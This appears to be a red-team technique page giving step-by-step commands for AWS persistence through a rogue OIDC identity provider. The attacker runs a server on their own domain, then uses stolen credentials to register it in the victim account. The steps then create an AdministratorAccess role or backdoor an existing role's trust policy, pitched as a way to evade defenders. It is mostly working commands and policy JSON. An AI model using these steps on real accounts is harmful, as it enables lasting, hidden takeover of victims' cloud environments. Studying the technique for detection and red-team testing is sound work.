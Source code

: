 ```yaml
---
author_name: Eduard Agavriloae
title: IAM Rogue OIDC Identity Provider Persistence
description: Obtain persistence by creating a rogue OIDC Identity Provider.
---
```


<div class="grid cards" markdown>

-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://www.offensai.com/blog/rogueoidc-aws-persistence-and-evasion-through-attacker-controlled-oidc-identity-provider">RogueOIDC: AWS Persistence and Evasion through attacker-controlled OIDC Identity Provider</a> by <a href="https://www.linkedin.com/in/eduard-k-agavriloae/">Eduard Agavriloae</a></p>
    <p><img src="/images/researchers/eduard_agavriloae.jpg" alt="Eduard Agavriloae" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

</div>


There are multiple ways to obtain persistence in AWS after gaining an initial foothold. This is another, slightly more complex method that, due to its complexity, may go unnoticed for a longer time compared with the well-known ones. 

This technique involves deploying an OIDC web server, creating an OIDC Identity Provider in AWS and backdoor a role for achieving persistence. For clarity, the steps below specify whether they should be performed in your environment (the attacker) or the victim's environment.

Before we begin, you will need a domain for this technique. AWS doesn't accept as OIDC Identity Providers IP addresses or domains that use self-signed certificates.

### 1. Start an EC2 instance

> Environment: attacker

You will need a server to deploy the web OIDC Identity Provider (IdP). This server should expose port 443 to the internet.

### 2. Configure a DNS record

> Environment: attacker

Add an A DNS record for a subdomain that will point to the IP of the EC2 instance. For the rest of the article we will assume that the subdomain is named `oidc` and the domain is `example.com`.

### 3. Connect to the instance and download Rogue OIDC IdP server

> Environment: attacker

```bash
sudo yum update
sudo yum install git
git clone https://github.com/OffensAI/RogueOIDC
```

### 4. Generate certificate

> Environment: attacker

This will create the cert files at `/etc/letsencrypt/live/oidc.example.com/privkey.pem` and `/etc/letsencrypt/live/oidc.example.com/fullchain.pem`.

```bash
sudo yum install certbot
sudo certbot certonly --standalone -d oidc.example.com
```

### 5. Configure Rogue OIDC Identity Provider

> Environment: attacker

```bash
cd RogueOIDC/web-app
vim .env
```

Change the configuration using your own domain, change the client secret and optionally the client ID and subject. 

```text
ISSUER=https://oidc.example.com
CLIENT_ID=oidc_client
CLIENT_SECRET=very_secure_password_2027
REDIRECT_URI=https://oidc.example.com
SUBJECT=oidc_subject
SSL_KEYFILE=/etc/letsencrypt/live/oidc.example.com/privkey.pem
SSL_CERTFILE=/etc/letsencrypt/live/oidc.example.com/fullchain.pem
HOST=0.0.0.0
PORT=443
```

### 6. Install requirements

> Environment: attacker

```bash
cd RogueOIDC/web-app
sudo yum install pip
sudo yum install virtualenv

virtualenv web
source web/bin/activate
pip install -r requirements.txt
```

### 7. Start the server

> Environment: attacker

```bash
sudo web/bin/python main.py
```

Verify that `https://odic.example.com/.well-known/openid-configuration` is accessible and reflects the configurations made.

### 8. Create the OIDC provider

> Environment: victim

This command will be executed using the compromised identity from the victim's account. The client ID must match the configured client ID from the Rogue OIDC IdP configuration.

```bash
aws --profile compromised_user iam create-open-id-connect-provider --url https://oidc.example.com --client-id-list oidc_client
```

### 9. Persistence

> Environment: victim

There are two ways to achieve persistence. The first involves creating a role with a trust policy for the OIDC IdP and attaching a policy to it afterwards. This might be easily detected.

The second one involves modifying the trust role policy of an existing role. While this is still a well-known persistence technique, combining it with an OIDC IdP may evade detection by some tools and defenders.

#### 9.1 Create a new role with this OIDC Identity Provider in the trust policy

The trust role policy document can be found below. Make sure it matches the client ID and subject configured in the Rogue OIDC server.

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "arn:aws:iam::123456789012:oidc-provider/oidc.example.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "oidc.example.com:aud": "oidc_client",
                    "oidc.example.com:sub": "oidc_subject"
                }
            }
        }
    ]
}
```

Use a unique role name to ensure safe testing.

```bash
aws --profile compromised_user iam create-role --role-name poc-random-string --assume-role-policy-document file://policy.json

aws --profile compromised_user iam attach-role-policy --role-name poc-random-string --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Now you just created an administrator role that can be assumed with the last step from the article. Keep in mind that is enough to create a role, without attaching any policies for doing a PoC.

#### 9.2 Modify the role trust policy of an existing role

With this method you would ideally get the trust policy of an existing role, modify it by adding your OIDC provider and update the role with the new policy document. This way, the role would continue to work, but it would also be backdoored.

```bash
aws --profile compromised_user iam update-assume-role-policy --role-name poc-random-string --policy-document file://policy.json
```

### 10. Assume the role

Finally, you can now assume the role at any time. The script for assuming it is in the same repository as the Rogue web OIDC IdP.

```bash
cd assume-role-script

pip install -r requirements.txt

./assume-role-rogue-oidc.py --oidc-url https://oidc.example.com \
      --client-id oidc_client \
      --client-secret very_secure_password_2027 \
      --redirect-uri https://oidc.example.com \
      --role-arn arn:aws:iam::123456789012:role/poc \
      --role-session-name session_name
```

The output will contain the temporary access credentials of the role and will perform an STS GetCallerIdentity to check if the credentials are working.

For taking the technique to a more evasion oriented level, make sure to check the original research.
